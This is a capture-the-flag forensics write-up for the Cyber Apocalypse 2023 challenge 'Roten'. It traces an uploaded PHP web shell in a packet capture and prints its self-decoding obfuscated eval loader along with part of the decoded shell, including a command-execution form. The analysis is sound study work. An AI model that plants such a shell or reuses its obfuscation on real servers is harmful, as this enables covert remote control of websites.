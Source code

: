 # Cyber Apocalypse 2023

## Roten

> The iMoS is responsible for collecting and analyzing targeting data across various galaxies. The data is collected through their webserver, which is accessible to authorized personnel only. However, the iMoS suspects that their webserver has been compromised, and they are unable to locate the source of the breach. They suspect that some kind of shell has been uploaded, but they are unable to find it. The iMoS have provided you with some network data to analyse, its up to you to save us.
>
>  Author: N/A
>
> [`forensics_roten.zip`](forensics_roten.zip)

Tags: _forensics_

## Solution
A wireshark capture accompanies that challenge. Browsing the capture one can fine a huge amount of requests to `galacticmap.php`. Next we search the packet where galacticmap.php was uploaded to get the code.

```
$iyzQ5h8qf6 .= "\\o>\n u]d> wd ;  Gaoe : ettsssn\"= \$   \$t\$4: lewf l;]e% 'L c'capt a maaOFre mF <'  hnv\n {e >< n>\"\n  Ednn   aets.t.c  m{ \$oem0  d\"n('d\n,a1 ]L h/hce'vveemlS"; 
$iyzQ5h8qf6 .= "Ie }pi'b<ee <e  \n).<t l\" }  Tett m dsp\"c cof o  mw\"o)' []e s[  ds )  o'ot= abn=euTLca\n_l.r/cx(br   ) td o..\n  [re- u ft:>oconi d\$ on]d - "; 
$iyzQ5h8qf6 .= "\" r\$'' \$'% )oe . i'nlac'=e[Etl ne\$>bhe\$r    )\"d> a  e  '(nD s i /\nmomtl et de e?' w=[m e o]1  rc\$\$\"ohaurtd'='Sor a d<>occ>t <  ?>  dppc  d"; 
$iyzQ5h8qf6 .= "'ti t lc/\n/m/ae  y er=  ; r \"o:x w,s { hfv<nime-yif's[re m'ib< (m\"a / {d\"\" =orh  oC-s -heom<apbip &p  [ &'\n i(ed e n % \n!oiah=de=fpriUu'ya e.r b\"'d;b t"; 
$iyzQ5h8qf6 .= " \ni.  \"sio  woTp re(ma!jionee e &\"( r \$t\$xe'c e\$1  i ll2'd='oe'lpbf)d '\$.sr<cr\nl h  r . .in   "; 
for($i = 0; $i < $pPziZoJiMpcu; $i++) $liGBOKxsOGMz[] = ""; 
for($i = 0; $i < (strlen($iyzQ5h8qf6) / $pPziZoJiMpcu); $i++) { for($r = 0; $r < $pPziZoJiMpcu; $r++) $liGBOKxsOGMz[$r] .= $iyzQ5h8qf6[$r + $i * $pPziZoJiMpcu]; } 
$bhrTeZXazQ = trim(implode("", $liGBOKxsOGMz)); 
$bhrTeZXazQ = "?>$bhrTeZXazQ"; 
eval( $bhrTeZXazQ ); 
```

Its obfuscated of course, but the script deobfuscates itself. After replacing the `eval` at the bottom with an echo we get the readable script. And sure enough, somewhere down the road we find a comment...

```
$file = '';
if ($dir == NULL or !is_dir($dir)) {
        if (is_file($dir)) {
                echo "enters";
                $file = $dir;
                echo $file;
        }
        $dir = './';
}
$dir = realpath($dir.'/'.$value);
##flag = HTB{W0w_ROt_A_DaY}
$dirs = scandir($dir);
echo "<h2>Viewing directory " . $dir . "</h2>";
echo "\n<br><form action='".$_SERVER['PHP_SELF']."' method='GET'>";
echo "<input type='hidden' name='dir' value=".$dir." />";
echo "<input type='text' name='cmd' autocomplete='off' autofocus>\n<input type='submit' value='Execute'>\n";
echo "</form>";
```

... with the flag `HTB{W0w_ROt_A_DaY}`.